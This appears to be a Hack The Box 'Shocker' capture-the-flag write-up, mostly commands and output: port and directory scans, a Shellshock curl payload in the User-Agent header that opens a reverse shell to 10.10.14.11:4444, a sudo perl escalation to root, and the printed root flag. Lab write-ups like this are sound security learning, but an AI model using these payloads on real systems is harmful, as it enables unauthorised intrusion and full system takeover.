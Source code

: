 
```
sudo nmap -sV shocker.htb
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-15 21:59 CEST
Nmap scan report for shocker.htb (10.10.10.56)
Host is up (0.10s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.09 seconds
```

feroxbuster -u http://10.10.10.68/ -w /usr/share/wordlists/seclists/PathBANGER.txt -r -C 404 -x php

feroxbuster -u http://10.10.10.56 -f -n -C 404 --dont-filter
```
403      GET       11l       32w      294c http://10.10.10.56/cgi-bin/
200      GET      234l      773w    66161c http://10.10.10.56/bug.jpg
200      GET        9l       13w      137c http://10.10.10.56/
403      GET       11l       32w      292c http://10.10.10.56/icons/
403      GET       11l       32w      300c http://10.10.10.56/server-status/

```

feroxbuster -u http://shocker.htb/cgi-bin/ -w /usr/share/wordlists/seclists/PathBANGER.txt -r -C 404 -x php,sh,cgi
```
200      GET        7l       17w      118c http://shocker.htb/cgi-bin/user.sh

```

While looking at 

http://shocker.htb/cgi-bin/user.sh

from there all we need is a shell 
```bash
curl -H 'User-Agent: () { :; }; /bin/bash -c "bash -i >& /dev/tcp/10.10.14.11/4444 0>&1"' http://shocker.htb/cgi-bin/user.sh
```

```bash
shelly@Shocker:/home$ cd shelly
cd shelly
shelly@Shocker:/home/shelly$ cat user.txt
cat user.txt

shelly@Shocker:/usr/lib/cgi-bin$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
    
shelly@Shocker:/usr/lib/cgi-bin$ sudo /usr/bin/perl -e 'exec "/bin/bash";'
sudo /usr/bin/perl -e 'exec "/bin/bash";'
whoami
root

cd /root
ls
root.txt
cat root.txt
e435766c3a474bc01d29d3a5ac17c3c4
```
